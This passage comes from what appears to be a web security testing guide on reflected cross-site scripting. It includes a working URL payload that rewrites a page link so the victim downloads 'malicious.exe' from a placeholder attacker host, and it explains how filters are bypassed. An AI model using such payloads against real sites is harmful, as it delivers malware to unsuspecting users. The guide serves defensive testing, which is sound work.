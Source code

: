 ```text
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

This produces the following behavior:

![XSS Example 2](images/XSS_Example2.png)\
*Figure 4.7.1-3: XSS Example 2*

This will cause the user, clicking on the link supplied by the tester, to download the file `malicious.exe` from a site they control.

### Bypass XSS Filters

Reflected cross-site scripting attacks are prevented as the web application sanitizes input, a web application firewall blocks malicious input, or by mechanisms embedded in modern web browsers. The tester must test for vulnerabilities assuming that web browsers will not prevent the attack. Browsers may be out of date, or have built-in security features disabled. Similarly, web application firewalls are not guaranteed to recognize novel, unknown attacks. An attacker could craft an attack string that is unrecognized by the web application firewall.

Thus, the majority of XSS prevention must depend on the web application's sanitization of untrusted user input. There are several mechanisms available to developers for sanitization, such as returning an error, removing, encoding, or replacing invalid input. The means by which the application detects and corrects invalid input is another primary weakness in preventing XSS. A deny list may not include all possible attack strings, an allow list may be overly permissive, the sanitization could fail, or a type of input may be incorrectly trusted and remain unsanitized. All of these allow attackers to circumvent XSS filters.

The [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) documents common filter evasion tests.

#### Example 3: Tag Attribute Value

Since these filters are based on a deny list, they could not block every type of expressions. In fact, there are cases in which an XSS exploit can be carried out without the use of `<script>` tags and even without the use of characters such as `<` and `>` that are commonly filtered.

For example, the web application could use the user input value to fill an attribute, as shown in the following code:

```html
<input type="text" name="state" value="INPUT_FROM_USER">
```
